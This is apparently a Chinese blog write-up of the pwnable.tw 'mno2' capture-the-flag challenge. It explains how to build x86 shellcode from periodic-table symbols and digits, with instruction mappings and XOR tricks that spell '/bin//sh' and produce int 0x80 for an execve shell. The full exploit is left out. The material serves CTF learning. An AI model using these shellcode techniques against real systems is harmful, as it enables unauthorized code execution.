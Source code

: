 ```yaml
---
title: mno2
date: 2019-02-23 11:01:54
tags:
layout: default
---
```

pwnable.tw mno2
<!--more-->
不附exp...


# mno2
...shellcode被玩坏了...
这题是用数字和元素周期表的内容写shellcode...
做的时候感觉有时候判定有问题...最好不要拿数字去充填...有时候会出错...
做完之后再也不想碰这题...
```python
ele=['\x48','\x48\x65','\x4C\x69','\x42\x65','\x42','\x43','\x4E','\x4F','\x46','\x4E\x65','\x4E\x61','\x4D\x67','\x41\x6C','\x53\x69','\x50','\x53','\x43\x6C','\x41\x72','\x4B','\x43\x61','\x53\x63','\x54\x69','\x56','\x43\x72','\x4D\x6E','\x46\x65','\x43\x6F','\x4E\x69','\x43\x75','\x5A\x6E','\x47\x61','\x47\x65','\x41\x73','\x53\x65','\x42\x72','\x4B\x72','\x52\x62','\x53\x72','\x59','\x5A\x72','\x4E\x62','\x4D\x6F','\x54\x63','\x52\x75','\x52\x68','\x50\x64','\x41\x67','\x43\x64','\x49\x6E','\x53\x6E','\x53\x62','\x54\x65','\x49','\x58\x65','\x43\x73','\x42\x61','\x4C\x61','\x43\x65','\x50\x72','\x4E\x64','\x50\x6D','\x53\x6D','\x45\x75','\x47\x64','\x54\x62','\x44\x79','\x48\x6F','\x45\x72','\x54\x6D','\x59\x62','\x4C\x75','\x48\x66','\x54\x61','\x57','\x52\x65','\x4F\x73','\x49\x72','\x50\x74','\x41\x75','\x48\x67','\x54\x6C','\x50\x62','\x42\x69','\x50\x6F','\x41\x74','\x52\x6E','\x46\x72','\x52\x61','\x41\x63','\x54\x68','\x50\x61','\x55','\x4E\x70','\x50\x75','\x41\x6D','\x43\x6D','\x42\x6B','\x43\x66','\x45\x73','\x46\x6D','\x4D\x64','\x4E\x6F','\x4C\x72','\x52\x66','\x44\x62','\x53\x67','\x42\x68','\x48\x73','\x4D\x74','\x44\x73','\x52\x67','\x43\x6E','\x46\x6C','\x4C\x76']
ele+=['1','2','3','4','5','6','7','8','9','0']
```
# 思路
* 寻找可用的元素..
* 凑/bin/sh
* 凑int 0x80


我是一个一个...试过去...数字组合当时没有想到..做得好辛苦i
```python
'''
[H]      dec eax			0x47
[He]	   would not be used
[B]      inc edx			0x42
[C]      inc ebx			0x43
[N]      dec esi			0x4e
[O]      dec edi			0x4f
[F]      inc esi			0x46
[Ne]	   would not be used
[P]      push eax			0x50			
[S]      push ebx			0x53
[K]      dec ebx			0x4a
[Fe]	   would not be used
[I]      dec ecx			0x48
[U]      push ebp			0x55
[Y]      pop ecx			0x59
[Ba]     inc edx;popa			0x4261
[V]      push esi			0x56
[W]      push edi			0x57
[Bhxxxx] inc edx;push bytes
[Phxxxx] push esp;push 4bytes

[XeFN]   pop eax;gs inc esi;dec esi
[PdFN]	 push eax;inc esi;dec esi
[GeFN]   inc edi;gs inc esi;dec esi
[TeFN]   push esp;gs inc esi;dec esi
[ReFN]   push edx;gs inc esi;dec esi
[Rfx]	 push edx;inc ?x;


[07]     xor BYTE PTR [edi],dh
[26]     xor dh,BYTE PTR [esi]
[30]     xor esi,DWORD PTR [eax]
[32]     xor esi,DWORD PTR [edx]
[38]     xor edi,DWORD PTR [eax]

['H', 'He', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'P', 'S', 'K', 'V', 'Fe', 'Ge', 'Se', 'Y', 'Rh', 'Pd', 'Cd', 'Te', 'I', 'Xe', 'Ce', 'Nd', 'Gd', 'W', 'Re', 'Th', 'U', 'Md', 'Bh']
'''
```
# /bin/sh
如果我需要0x73的7我就需要n^n^7 or 6^3(6必须自己提供所以没办法1^2所以不行)只能 n^n^7
* 因为0x70是'p'所以只能由长度为2的元素的第二字节产生....发现还是有很多选择的
```
Ar,Cr,Cu,As,Br,Kr,Sr,Zr,Ru,Cs,Pr,Eu,Dy,Er,Lu,Os,Ir,Pt,Au,At,Fr,Np,Pu,Es,Lr,Hs,Mt,Ds,Lv
```
* 因为这二字节元素的第一字节要用来产生2f这就是突破点..和可以产生0x2f的大写字母集合交叉一下得到
```
Pr,Ru,Pt,Pu,Lv,Lu,Lr,Np,Fr,Hs,Br,Dy,Cu,Ds,Cs,Sr,Kr,Os,Es,Mt,Ir,As,Ar,Au,,Eu,Cr,Zr,Er
```
减少一种可能也是减少好吧...当我没说
我们随便选一个试试..
例如Os吧..
在一下几个组合中O可以xor两次获得0x2f
```
 {'0', 'O', 'P'},
 {'3', 'O', 'S'},
 {'2', 'O', 'R'},
 {'5', 'O', 'U'},
 {'4', 'O', 'T'},
 {'7', 'O', 'W'},
 {'6', 'O', 'V'},
 {'9', 'O', 'Y'},
```
选一个试试看看
例如A:`?sOO`,B:`??00`,C:`??PP`
再来看看`h`-->0x68
.....需要用到小写字母所以C,B的?部分是2字节元素
例如A:`?sOO`,B:`?B00`,C:`aBPP`（我选了Ba,因为B单独是一个元素感觉应该会简单点...）
```python
In [323]: chr(0x59)
Out[323]: 'Y'

In [324]: chr(0x50)
Out[324]: 'P'
```
泪流满面..被yi和磷拯救了...
所以A:`PsOO`,B:`YB00`,C:`aBPP`...试试看
```python
In [325]: b='YB00'

In [326]: a='PsOO'

In [327]: c='aBPP'

In [328]: for x in range(4):
    print(chr(ord(a[x])^ord(b[x])^ord(c[x])))
   .....:     
h
s
/
/
#ESI  0x68732f2f ('//sh')
```
然后去弄/bin
发现0x69,0x62,0x6e都不能由一字节长度的元素组成..直接拿B开头的元素来试
```python
Be
Br
Ba
Bi
Bk
Bh
```
一个字凑...
```
In [353]: hex(ord('i'))
Out[353]: '0x69'

In [354]: chr(0x57)
Out[354]: 'W'

In [355]: chr(0x50)
Out[355]: 'P'
```
A:`iB??`B:`W???`C:`P???`
第二字节如法炮制
`{'4', 'B', 'Y'}`
A:`iBI4`B:`WiBY`C:`PBiB`
....得到/bin/sh的我眼泪也掉下来..
```
─────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────
 EAX  0xff9b8530 ◂— 0x50426942 ('BiBP')
 EBX  0x0
 ECX  0x0
 EDX  0x804892e ◂— add    byte ptr [ebx + 0x65], al
 EDI  0x6e69622f ('/bin')
 ESI  0x68732f2f ('//sh')
 EBP  0xff9b8588 ◂— 0x0
 ESP  0xff9b8530 ◂— 0x50426942 ('BiBP')
 EIP  0x324f6ede ◂— push   esi /* 0x65545756; 'VWTeFNVVVVBa' */
```
坐到后面发现我们只能用popal来使得ebx--->/bin/sh
所以我研究了一下pop all的顺序
```python
EDI
ESI
EBP
?
EBX-->xxxx-->/bin/sh
EDX-->0
ECX-->0
EAX-->0xb
```
这个在弄完/bin/sh时压好最方便...//惨痛的教训


# int 0x80
这个也需要凑..
因为我们有
```python
[26]     xor dh,BYTE PTR [esi]
[07]     xor BYTE PTR [edi],dh
```
所以我们先set esi edi=0方法同第一次
```asm
push esi
dec eax
dec eax
dec eax
dec eax
xor esi,DWORD PTR [eax]
```
然后set esi edi 为我们可以控制的地方例如0x324f6f43...
然后我们利用`26`,`07`...
所以我们又开始凑
A:0x?? B:0x?? C:0x88
目标是A^B^C==0xcd和0x80
因为第二个字节受前一个字节的约束所以我们先弄第二个字节
## 0x80
0x80比较简单AB只要凑出8就可以了
我们可以随便选择像是
```python
In [452]: chr(0x43)
Out[452]: 'C'

In [453]: chr(0x4b)
Out[453]: 'K'

In [454]: hex(0x4b^0x43)
Out[454]: '0x8'
```
A:0x4b B:0x43 C:0xCa

## 0xcd
也就是我们要凑0x6
发现更简单...
随便选个S^U


# exp
```
--
```

做了2天...内牛满面.........
```python
In [527]: f**k
```

